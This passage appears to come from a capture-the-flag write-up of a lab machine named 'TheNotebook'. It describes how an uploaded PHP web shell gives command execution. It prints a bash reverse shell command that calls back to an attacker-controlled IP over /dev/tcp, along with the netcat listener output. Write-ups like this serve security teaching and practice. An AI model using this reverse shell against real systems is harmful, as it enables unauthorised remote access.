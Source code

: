 ![Admin notes](screenshots/80_php_upload.png)

Navigating to the uploaded file, and entering a request parameter of `?cmd=id` shows we have command execution and are running as the `www-data` user!

![Admin notes](screenshots/80_code_execution.png)

Did the usual steps to get a reverse shell. Intercepted a request using Burp. Changed request to an HTTP POST. And used the common bash reverse shell.

```none
bash -c 'bash -i >& /dev/tcp/10.10.14.10/9001 0>&1'
```

Success! A reverse shell as the `www-data` user.

```none
└─$ nc -lvnp 9001
listening on [any] 9001 ...
connect to [10.10.14.10] from (UNKNOWN) [10.10.10.230] 50612
bash: cannot set terminal process group (1213): Inappropriate ioctl for device
bash: no job control in this shell
www-data@thenotebook:~/html$ id
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```
